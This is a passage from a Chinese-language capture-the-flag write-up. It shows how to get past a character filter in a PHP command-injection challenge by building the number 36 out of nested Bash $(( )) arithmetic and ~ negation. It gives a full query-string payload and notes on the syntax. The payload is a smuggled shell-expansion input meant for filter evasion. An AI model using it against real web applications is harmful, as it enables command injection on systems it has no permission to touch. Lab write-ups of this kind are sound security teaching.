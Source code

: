  36可以通过外层为$(())包裹内层可以运算出36的表达式构造，36由-37取反得到，所以

\$((~$((   ))))   内部加上37个$((~ $(()) )) 得到 -37 。

再捋一遍就是：
题目要读取36.php，先对36取反，可以知道36可以由-37取反得到，-37又可以拆成37个 -1 相加也就是37个$((~$(( ))))，再在外面取反(也就是对-37取反)就可以得到36

最终payload:

```
?c=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(()))) ))))
```



#### 知识点

> 
>
> 1、双小括号：（（））
>
> 双小括号 (( )) 是 Bash Shell 中专门用来进行整数运算的命令，它的效率很高，写法灵活，是企业运维中常用的运算命令。 通俗地讲，就是将数学运算表达式放在((和))之间。 表达式可以只有一个，也可以有多个，多个表达式之间以逗号,分隔。对于多个表达式的情况，以最后一个表达式的值作为整个 (( ))命令的执行结果。 可以使用$获取 (( )) 命令的结果，这和使用$获得变量值是类似的。 可以在 (( )) 前面加上$符号获取 (( )) 命令的执行结果，即获取整个表达式的值。以 c=$((a+b)) 为例，即将 a+b 这个表达式的运算结果赋值给变量 c。 注意，类似 c=((a+b)) 这样的写法是错误的，不加$就不能取得表达式的结果。
>
> 还要知道$(())的值是0
>
> 2、取反：
>
> 如果b=~a，那么a+b=-1。可以用二进制验算 
>
> ![img](https://img-blog.csdnimg.cn/20210831092105318.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVFQxM1VH,size_20,color_FFFFFF,t_70,g_se,x_16)
>
> 3、echo ${_} #返回上一次的执行结果

![img](https://img-blog.csdnimg.cn/20210831092201573.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVFQxM1VH,size_20,color_FFFFFF,t_70,g_se,x_16)
